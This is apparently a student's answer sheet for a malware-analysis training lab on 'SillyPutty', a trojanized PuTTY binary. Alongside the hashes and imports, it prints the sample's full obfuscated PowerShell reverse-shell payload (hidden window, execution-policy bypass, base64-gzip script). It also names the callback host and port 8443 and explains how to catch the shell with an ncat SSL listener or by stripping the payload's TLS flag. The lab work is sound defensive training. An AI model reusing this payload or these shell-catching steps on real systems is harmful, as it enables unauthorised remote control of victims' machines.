

# Challenge 1: SillyPutty

Hello Analyst,

The help desk has received a few calls from different IT admins regarding the attached program. They say that they've been using this program with no problems until recently. Now, it's crashing randomly and popping up blue windows when it's run. I don't like the sound of that. Do your thing!

IR Team

## Objective
Perform basic static and basic dynamic analysis on this malware sample and extract facts about the malware's behavior. Answer the challenge questions below. If you get stuck, the `answers/` directory has the answers to the challenge.

## Tools
Basic Static:
- File hashes
- VirusTotal
- FLOSS
- PEStudio
- PEView

Basic Dynamic Analysis
- Wireshark
- Inetsim
- Netcat
- TCPView
- Procmon

## Challenge Questions:

### Basic Static Analysis
---

- What is the SHA256 hash of the sample?
    0C82E654C09C8FD9FDF4899718EFA37670974C9EEC5A8FC18A167F93CEA6EE83
- What architecture is this binary?
    

    32 bit
- Are there any results from submitting the SHA256 hash to VirusTotal?

    
    
- Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings?
    
    

- Describe the results of inspecting the IAT for this binary. Are there any imports worth noting?
    
    -> ShellExecuteA is being used by the SHELL32.dll imported dll file.
- Is it likely that this binary is packed?

    -> No the binary is not likely been packed.
---

### Basic Dynamic Analysis
 - Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation?

    With internet: It opens a powershell window but it hides suddenly as the hiding technique maybe used in the malware. 
    The activity is same for both the states of the internet as well as it asks for an IP address or host address to do some activity not revealed by it ,  maybe a camouflage.
 - From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?
    I can use ProcMon to do this the payload executed as shell on the powershell is :

            ""powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('H4sIAOW/UWECA51W227jNhB991cMXHUtIRbhdbdAESCLepVsGyDdNVZu82AYCE2NYzUyqZKUL0j87yUlypLjBNtUL7aGczlz5kL9AGOxQbkoOIRwK1OtkcN8B5/Mz6SQHCW8g0u6RvidymTX6RhNplPB4TfU4S3OWZYi19B57IB5vA2DC/iCm/Dr/G9kGsLJLscvdIVGqInRj0r9Wpn8qfASF7TIdCQxMScpzZRx4WlZ4EFrLMV2R55pGHlLUut29g3EvE6t8wjl+ZhKuvKr/9NYy5Tfz7xIrFaUJ/1jaawyJvgz4aXY8EzQpJQGzqcUDJUCR8BKJEWGFuCvfgCVSroAvw4DIf4D3XnKk25QHlZ2pW2WKkO/ofzChNyZ/ytiWYsFe0CtyITlN05j9suHDz+dGhKlqdQ2rotcnroSXbT0Roxhro3Dqhx+BWX/GlyJa5QKTxEfXLdK/hLyaOwCdeeCF2pImJC5kFRj+U7zPEsZtUUjmWA06/Ztgg5Vp2JWaYl0ZdOoohLTgXEpM/Ab4FXhKty2ibquTi3USmVx7ewV4MgKMww7Eteqvovf9xam27DvP3oT430PIVUwPbL5hiuhMUKp04XNCv+iWZqU2UU0y+aUPcyC4AU4ZFTope1nazRSb6QsaJW84arJtU3mdL7TOJ3NPPtrm3VAyHBgnqcfHwd7xzfypD72pxq3miBnIrGTcH4+iqPr68DW4JPV8bu3pqXFRlX7JF5iloEsODfaYBgqlGnrLpyBh3x9bt+4XQpnRmaKdThgYpUXujm845HIdzK9X2rwowCGg/c/wx8pk0KJhYbIUWJJgJGNaDUVSDQB1piQO37HXdc6Tohdcug32fUH/eaF3CC/18t2P9Uz3+6ok4Z6G1XTsxncGJeWG7cvyAHn27HWVp+FvKJsaTBXTiHlh33UaDWw7eMfrfGA1NlWG6/2FDxd87V4wPBqmxtuleH74GV/PKRvYqI3jqFn6lyiuBFVOwdkTPXSSHsfe/+7dJtlmqHve2k5A5X5N6SJX3V8HwZ98I7sAgg5wuCktlcWPiYTk8prV5tbHFaFlCleuZQbL2b8qYXS8ub2V0lznQ54afCsrcy2sFyeFADCekVXzocf372HJ/ha6LDyCo6KI1dDKAmpHRuSv1MC6DVOthaIh1IKOR3MjoK1UJfnhGVIpR+8hOCi/WIGf9s5naT/1D6Nm++OTrtVTgantvmcFWp5uLXdGnSXTZQJhS6f5h6Ntcjry9N8eXQOXxyH4rirE0J3L9kF8i/mtl93dQkAAA=='))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))""

 - What is the DNS record that is queried at detonation?
            .TCPClient("bonus2.corporatebonusapplication.local",8443)
 - What is the callback port number at detonation?

            8443
 - What is the callback protocol at detonation?

            TCP 
 - How can you use host-based telemetry to identify the DNS record, port, and protocol?

            Fakenet and wireshark
 - Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?
 
    The shell does not spawn without a proper TLS handshake, so using a basic ncat listener on port 8443 does not initiate a shell. The syntax of the PowerShell reverse shell requires TLS to complete the network transaction, so even if you use the `hosts` file and open up a listener on port 8443 to catch the incoming shell, you cannot coerce the binary to connect unless you can also provide a valid SSL certificate.

There are a few ways to coerce a shell to spawn from this binary. One is to use ncat with the `--ssl` option along with rerouting the traffic to the localhost like before:

```
ncat -nvlp --ssl 8443
```
... and then running the malware again.

Another is to pull the PowerShell payload out of the binary via decompression/base64 decoding, and remove the argument for `-sslcon true`. This removes the reverse shell's requirement to negotiate a TLS handshake.


